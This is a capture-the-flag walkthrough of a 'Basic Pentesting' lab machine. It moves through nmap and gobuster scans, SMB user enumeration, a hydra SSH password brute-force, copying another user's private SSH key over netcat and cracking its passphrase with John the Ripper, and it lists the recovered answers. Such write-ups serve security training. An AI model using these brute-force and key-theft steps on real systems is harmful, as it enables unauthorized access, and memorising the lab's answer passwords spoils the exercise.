 # Basic Pentesting

##  Find the services exposed by the machine
Do a netwrok scan using nmap

```
nmap -sC -sV -oN nmap/initial_scan $IP
```

Results:

```
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13?
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http-proxy?
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-09-07T18:03:22-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-09-07T22:03:22
|_  start_date: N/A

```


## 2 What is the name of the hidden directory on the web server(enter name without /)?
Looks like a great oportunity to run gobuster and crawl over the server

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $IP -o gobuster/dir_lookup 

results:
/development
```

## 4 - User brute-forcing to find the username & password

Enumerating smb 

```
nmap --script smb-enum-users $IP
(no results)
```

```
enum4linux -a $IP

ACCESSIBLE SHARED FOLDERS:
Anonymous
USERS FOUND:
jan
kay
```

## 5 - What is the username?

```
jan
```

## 6 - What is the password?

As suggested above, using brute force with wordlist from git (10 Million password list )

```
hydra -l jan -P rockyou.txt ssh://$IP

[22][ssh] host: 10.10.171.203   login: jan   password: armando
```

## 7 - What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```

## 8- Enumerate the machine to find any vectors for privilege escalation 

Used linpeas (because it highlights the text) and transfered it over NC to the remote machine

```
found ssh keys in /home/kay/.ssh
```

Transfered it over nc to local machine

```
chmod 600 id_rsa
ssh -i id_rsa kay@$IP
(request passphrase)

python ssh2john id_rsa > ssh2john
john --wordlist=/usr/share/wordlists/rockyou.txt ssh2john
password: beeswax
```
## 9 - What is the name of the other user you found(all lower case)?
from the enum4linux result

```
kay
```

## 10 - What is the final password you obtain?

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

